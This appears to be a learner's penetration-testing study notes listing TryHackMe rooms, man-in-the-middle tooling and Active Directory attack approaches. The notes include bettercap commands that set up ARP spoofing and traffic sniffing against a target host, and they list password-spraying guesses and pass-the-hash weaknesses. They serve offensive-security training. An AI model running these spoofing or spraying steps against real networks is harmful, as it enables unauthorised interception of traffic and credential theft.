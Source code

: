 
### Rooms to pass in TryHackMe

- Cross Site Scripting (XSS)
- Upload Vulnerabilities
- Nmap Live Host Discovery
- Authentication Bypass
- Active Directory Basics
- Windows Fundamentals (1-7)
- Nessus
- Active Directory (All)
- MetaSploit
- Red Team Labs (Empire)
- Red Team Fundamentals
- Apt Labs ???

## 05. Man in the Middle

### Tools

- MacChanger
- Ettercap (Bettercap)
  
  ```bash
  apt-get install bettercap
  sudo bettercap --iface eth0
  net.probe on
  set arp.spoof.duplex true
  set arp.spoof.targets 192.168.2.122
  arp.spoof on
  net.sniff on
  ```

  https://www.bettercap.org/usage/webui/
  
  ```bash
  sudo bettercap -caplet http-ui
  ```

- MITM Framework
- Driftnet
  Sniff images from network (homework)

vulnweb.com - Web application to practice web vulnerabilities

## 06. Active Directory Enumeration

- NTLM is weak to dictionary attacks
- NTLM is weak to pass the hash attacks

### General Attacking aproaches

1. Classical pentest evaluate service level vulnerabilities (metasploit, nmap, nessus)
2. Password spraying (empty PW, company99, username=password)
3. ACLs abuse
